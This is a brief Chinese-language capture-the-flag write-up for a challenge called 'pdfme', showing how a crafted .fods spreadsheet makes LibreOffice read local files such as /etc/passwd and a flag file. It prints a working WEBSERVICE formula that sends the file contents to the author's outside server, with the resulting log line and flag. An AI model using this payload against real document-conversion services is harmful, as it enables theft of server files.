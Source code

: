# pdfme

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用 libreoffice macro 去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳



`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read `/etc/passwd` file

組合起來

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會把帶有 flag 的 Request 送到我們的 server: 

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`



flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: flag.fods
